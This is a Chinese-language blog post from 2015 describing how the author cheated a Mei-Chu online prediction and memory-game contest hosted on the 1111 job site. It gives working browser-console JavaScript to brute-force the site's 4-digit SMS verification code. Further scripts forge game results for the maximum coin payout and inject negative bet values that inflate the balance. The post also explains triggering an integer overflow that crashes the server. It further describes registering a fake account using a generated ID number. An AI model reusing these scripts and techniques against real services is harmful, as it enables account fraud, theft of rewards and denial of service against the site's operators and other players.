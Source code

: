 title: 乙未梅竹清交網路PK賽洗幣手法
date: 2015-02-19 09:58:36
categories:
  - Development
  - Security
---

梅竹停賽2年，今年終於開辦，不知道哪個單位搞來了線上的活動[^1]，搭配1111人力銀行，必須信箱、手機雙重認證加上填完履歷才能參加。費了不少功夫，生出了一個可以參賽的人頭帳號，也用這帳號玩了點洗幣的小花樣，詳見下文

[^1]: [2015乙未梅竹重出江湖活動頁](http://www.1111.com.tw/15SP/2015meichu/)

<!--more-->

## 取得人頭帳號

1111的帳號是使用身分證，所以任意找一個製造機產生即可，簡單註冊得到下列帳號

帳號: `A132708867`
密碼: `12345678`

### 信箱認證

打開拋棄式信箱網站，據說[10 Minute Mail](http://10minutemail.com/)是目前最大的網站，信箱有效時間10分鐘，可以按按鈕延長時效，免費而且可以正確收到1111的認證信。到會員中心將信箱修改成拋棄式信箱，發出認證信，稍候個3~5分鐘就會收到了

### 手機認證

1111的手機認證碼只有4碼，經過實測，暴力法並不會被阻擋，Bingo!

> 補充說明一下，我試著找過約5個免費線上收簡訊的網站，但是這類網站的手機號碼幾乎都是歐美國家居多，除非付費才有可能找到台灣的號碼，而1111的手機認證似乎無法認證台灣以外的號碼，故此法不可靠

到1111[會員中心頁面](http://www.1111.com.tw/talents/membercenter/index.asp)，手機號碼隨意填寫即可，接著將程式碼中的mobile參數改為剛才填的號碼，打開認證手機的小視窗發送出簡訊，接著打開Chrome的開發者工具，或是按下`F12`也可以，再使用下面的程式碼暴力掃描認證碼

```js
for (var i = 0; i < 10000; i++) {
    var s = '0000' + i;
    var len = s.length;

    $.post('/talents/membercenter/member-mobile-confirmed-save.asp', {
        sendkind: 2,
        mobile: 9999999999, // 請填你的會員電話號碼
        confirmedNo: s.substr(len-4)
    }, function(data) {
        console.log(data);
        if (data!='fail') {
            console.log('=========================== bingo ===========================');
        }
    });
}
```

稍等一段時間，可能會噴出很多Ajax錯誤，但是仍然可以正確收到response，當然，會看到累積超多`fail`字串，耐心等候出現`success`即表示認證成功囉

## 開始洗幣

### 梅竹對對碰

關鍵在於Times參數，每天的第一局如果在15秒內可贏得最高金額500，所以此處設定成10秒；Clicks參數應該只是記錄翻牌總次數。這款遊戲是使用`Quizy Memory Game`這套jQuery Plugin，想更深入了解可以參考Plugin的[Github頁面](https://github.com/frenski/quizy-memorygame)

按照遊戲規則，視每日第一次完成此遊戲的秒數分配遊戲幣，不過進入遊戲畫面直接貼上下方的程式碼就可以**下去領500**了:)

```js
$.post("GameProcess.ashx?mode=3", {
    'Clicks': 48,
    'Times': 10,
    'key': $("#keyG").data("key")
}, function (data) {
    console.log(data);
});
```

### 賽事預測

用以下程式碼，例如金額填`-9999`，會直接在自己的總梅竹幣上增加9999

```js
$('input[name=NCTU_8]').val(-9999); // 請改成自己滿意的金額
var GameTable = $(".GameSave").data("table");
var GameMode = $(".GameSave").data("mode");
var GameData = $("#" + GameTable).find(":input").serialize();
$.post("GameProcess.ashx?mode=" + GameMode, GameData, function (data) {
    console.log(data)
});
```

#### 原理解析

站在後端工程師的立場考量，推測遊戲幣的檢驗流程如下方虛擬碼

```
forEach (field, value) in [NTHU_1, NTHU_2, ..., NTHU_9, NCTU_1, ..., NCTU_9, draw_1, ..., draw_9] {
    if (value < 總金額) {
        Database.field = value;
        未下注金額 -= value;
    }
}
return 未下注金額;
```

我們傳入的field中，除了`NCTU_8`的value等於`-9999`，其餘都是0。因為傳入的是負數，且判斷式未檢查value是否大於0，所以直接bypass了

## 攻擊

該網站是用ASP寫的，推測資料庫應是MSSQL，ASP宣告變數可以是弱型別，也可以是強型別，SQL類的資料庫Schema也是要規範Integer的大小、signed/unsigned，所以如果刻意傳一個大數製造Overflow，通常會看到網頁的異常狀態甚至是Error Report。從上面的範例中，將金額調成負的大數字就會造成Server掛掉囉

精確一點來計算，我用了一些手段推得後端是使用`32bit signed integer`來儲存`未下注金額`，也就是說此金額範圍是`-2147483647~2147483648`，因為我們只能填負數，且填的金額會累加在原本金額上，假設我們已經有1500遊戲幣，且尚未做任何下注，則距離Overflow還要`2147483647 - 1500 = 2147482147`，所以金額填上`-2147482147`時達到臨界值，再差一變成`-2147482148`，Server在計算時則會Crash，導致遊戲頁面掛掉

### 復原

如果不慎搞爆server了，有幾個靜態頁面仍然是正常的，請先切換到正常頁面，再服用下方的程式

```
var GameData = {
  NTHU_1: 0, NTHU_2: 0, NTHU_3: 0, NTHU_4: 0, NTHU_5: 0, NTHU_6: 0, NTHU_7: 0, NTHU_8: 0, NTHU_9: 0,
  NCTU_1: 0, NCTU_2: 0, NCTU_3: 0, NCTU_4: 0, NCTU_5: 0, NCTU_6: 0, NCTU_7: 0, NCTU_8: 0, NCTU_9: 0,
  draw_1: 0, draw_2: 0, draw_3: 0, draw_4: 0, draw_5: 0, draw_6: 0, draw_7: 0, draw_8: 0, draw_9: 0
};
$.post("GameProcess.ashx?mode=1", GameData, function (data) {
  console.log(data);
});
```